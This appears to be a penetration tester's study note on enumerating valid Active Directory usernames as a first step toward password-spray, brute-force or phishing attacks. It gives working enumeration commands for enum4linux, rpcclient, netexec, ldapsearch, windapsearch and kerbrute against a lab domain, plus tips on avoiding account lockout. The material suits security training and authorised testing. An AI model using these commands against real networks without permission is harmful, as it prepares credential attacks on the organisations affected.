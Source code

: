 -- -
Generate a list of valid domain usernames for you to attack via a #passwordspray attack, bruteforce attack or phishing attack. 
### Tactics
- Leverage #SMBNull session to retrieve a complete list of domain users from the domain controller.
- Leverage LDAP anonymous bind to pull down list of valid domain users
- Leverage [[Dark Arts/Tools/Kerbrute|Kerbrute]] to validate users using a wordlist from the [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames) repo or gathered by a tool such as [linkedin2username](https://github.com/initstring/linkedin2username) to create a list of potentially valid users. 
- Use sets of credentials provided by the client or obtained through other means such as [[LLMNR Poisoning]] or a successful password spray using a smaller wordlist. 
### Leverage Anon Access
Automated tools that leverage #SMBNull sessions or LDAP anonymous binds.
##### enum4linux
```bash
enum4linux -U <ip> | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

^3ddb4d

##### rpcclient
```bash
# connect to server
rpcclient -U "" -N <ip>

# on server over rpc
enumdomusers
```

^3479a7

##### Netexec
Will return valid users with the amount of invalid login attempts on that user as well as the last time there was an incorrect login attempt. Helps us determine how close an account is to lock out. If the environment uses multiple DCs, then the bad login data points would be tracked separately on each DC, so we would need to query each DC and add up the amount of bad login attempts there have been for that account. 
```bash
netexec smb <ip> --users
```

^38aeea

##### ldapsearch
Get valid domain users from LDAP anonymous bind
```bash
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

^327bd7

##### windapsearch
Get valid domain users from anonymous bind
```bash
./windapsearch.py --dc-ip <dc ip> -u "" -U
```

^bb80aa

##### Kerbrute
Uses kerberos pre-auth to determine if a username is valid. Potentially more stealthy approach and does not lock out accounts.
```bash
kerbrute userenum -d <domain> --dc <dc ip> <wordlist>
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```